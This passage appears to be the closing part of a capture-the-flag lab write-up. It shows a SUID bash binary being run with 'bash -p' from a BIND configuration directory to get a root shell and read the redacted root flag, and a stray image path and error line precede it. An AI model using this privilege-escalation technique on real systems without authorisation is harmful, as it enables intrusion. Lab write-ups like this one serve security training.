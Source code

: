 ```
    /etc/bind/named.bindmgr/bash:40: unexpected token near '}'
```

### Ontaining root flag
Lastly, we will just have to navigate to ```/etc/bind/named.bindmgr``` so that the bash can be executed with root privileges and obtain the system flag.
```
bindmgr@dynstr:~$ cd /etc/bind/named.bindmgr
bindmgr@dynstr:/etc/bind/named.bindmgr$ ./bash -p
bash-5.0# cd /root/
bash-5.0# cat root.txt
<Redacted system flag>
bash-5.0# 
```
